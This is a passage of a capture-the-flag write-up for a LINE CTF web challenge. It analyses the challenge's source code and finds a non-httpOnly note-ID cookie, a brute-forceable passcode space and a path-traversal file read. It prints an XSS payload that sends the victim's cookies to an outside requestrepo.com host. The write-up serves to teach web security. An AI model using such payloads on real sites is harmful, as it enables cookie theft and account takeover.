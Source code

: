 ```js
};
```

We notice that the note ID is set as follows:
```js
res.cookie('noteId', noteId, {
    domain: DOMAIN,
    httpOnly: false
    });
```
Where DOMAIN is line.ctf, so because we are on the same site on the bot endpoint, we can just leak the note ID from the cookie.
```
http://bot.line.ctf/?error=<img src=x onerror="location=`//06sjnkhn.requestrepo.com/?${document.cookie}`;" />
```

Next comes the tricky part, the bot is using this function:
```js
function genPasscode() {
  let chars = "LINECTF";
  let emojis = [">.<", ">,<"];
  let passCode = Array.from(crypto.randomFillSync(new Uint32Array(4))).map((x) => chars[x % chars.length]).join('');
  passCode += emojis[crypto.randomInt(emojis.length)];
  return passCode;
}
```

To generate passcodes for the flag note. If we take a closer look, there's only 4802 passcodes in total, which is totally bruteforceable. There's also a LFI in the public endpoint:
```js
app.use('/public', function (req, res, next) { 
  res.sendFile(__dirname + '/public' + decodeURIComponent(req.path), { root: '/' });
});
```
Which we can use to include files. And this is the `/read` endpoint:
```js
app.get('/read', (req, res) => {
  if (!req.headers['x-ctf-from']) return res.redirect('/');
  let { passCode, noteId, next } = req.query;
  if (typeof passCode === 'string' && typeof noteId === 'string' && REGEX.test(noteId)) {
    if (!next) next = '/content';
    try {
      let noteDir = 'notes/' + noteId;
      let notePath = noteDir + '/' + md5(passCode).substring(10);
      if (fs.existsSync(notePath)) {
        let content = fs.readFileSync(notePath);
        fs.rmSync(noteDir + '/', { recursive: true, force: true });
        return res.redirect(next + `?content=` + encodeURIComponent(content));
      } else {
        if (fs.existsSync(noteDir)) fs.rmSync(noteDir + '/', { recursive: true, force: true });
        return res.send('<script>alert("Read note failed")</script>');
      }
    } catch {
      return res.send('<script>alert("Read note failed")</script>');
    }
  }
  return res.redirect('/');
});
```
